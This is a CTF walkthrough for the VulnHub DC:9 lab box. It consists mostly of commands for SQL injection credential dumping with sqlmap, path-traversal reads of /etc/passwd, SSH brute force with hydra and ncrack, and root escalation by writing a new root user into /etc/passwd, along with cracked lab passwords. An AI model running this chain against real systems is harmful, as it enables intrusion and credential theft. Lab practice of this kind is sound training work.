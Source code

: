 

# DC:9 Walkthrough

**VulnHub Link:** [DC:9](https://www.vulnhub.com/entry/dc-9,412/)
**Difficulty:** Easy
**Release Date:** 29 Dec 2019


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.131



## 2.Web Enumeration


SQL injection found out on search section

Opening Burp Suite and capture the request then copy to file named results.req

sqlmap -r results.req --batch --dbs
sqlmap -r results.req --batch -D users
sqlmap -r results.req --batch -D users  -T UserDetails
sqlmap -r results.req --batch -D users  -T UserDetails -C password -dump-all

sqlmap -r results.req --batch -D Staff  -T Users --columns -dump-all

We found out all the users information and admin credentials on site

after logged in as admin -->
http://192.168.100.131/welcome.php?file=../../../../etc/passwd
http://192.168.100.131/welcome.php?file=../../../../knockd.conf

knock 192.168.100.131 [sequence numbers] -v


# 3.Brute Force

hydra -L usernames.txt -P passwords.txt ssh://192.168.100.131 -I

OR

ncrack -U usernames.txt -P passwords-2.txt 192.168.100.131:22 -m ssh -vv



# 4.Previlige Escalation

login: janitor password: Ilovepeepee
login: joeyt   password: Passw0rd
login: chandlerb password: UrAG0D!


in janitor , found 4 possible password and again brute force -->

login: fredf password: B4-Tru3-001 

sudo -l ---> (root) NOPASSWD /opt/devstuff/dist/test/test

openssl passwd test ---> copy output

echo 'toor:output:0:0:root:/root:/bin/bash' > /tmp/toor

sudo ./test /tmp/toor /etc/passwd

su toor (enter test)

and BINGO!!! ROOT Escalation. Root flag captured..!
